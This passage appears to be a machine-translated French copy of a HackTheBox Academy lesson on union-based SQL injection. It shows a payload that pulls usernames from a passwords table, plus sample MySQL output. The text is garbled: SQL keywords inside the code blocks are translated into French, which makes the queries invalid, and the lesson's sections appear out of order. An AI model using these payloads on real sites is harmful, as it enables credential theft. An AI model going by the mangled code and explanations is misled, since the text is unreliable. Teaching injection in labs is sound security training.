 ![](https://academy.hackthebox.com/storage/modules/33/db_version_1.jpg)

Comme nous pouvons le voir, nous pouvons afficher la version de la base de données. Nous savons maintenant comment former nos charges utiles d'injection Union SQL pour obtenir avec succès la sortie de notre requête imprimée sur la page. Dans la section suivante, nous verrons comment énumérer la base de données et obtenir des données à partir d'autres tables et bases de données.

Plein écran  Terminer

```
UNION SELECT nom d'utilisateur, 2, 3, 4 parmi les mots de passe-- '

```

Cette requête renverrait :

```
mysql> SELECT * des produits où product_id UNION SELECT username, 2, 3, 4 from passwords-- '

+-----------+-----------+-----------+-----------+
| produit_1 | produit_2 | produit_3 | produit_4 |
+-----------+-----------+-----------+-----------+
| administrateur | 2 | 3 | 4 |
+-----------+-----------+-----------+-----------+

```

Comme nous pouvons le voir, notre sortie recherchée de la requête '`UNION SELECT username from passwords`' se trouve dans la première colonne de la deuxième ligne, tandis que les nombres remplissent les colonnes restantes.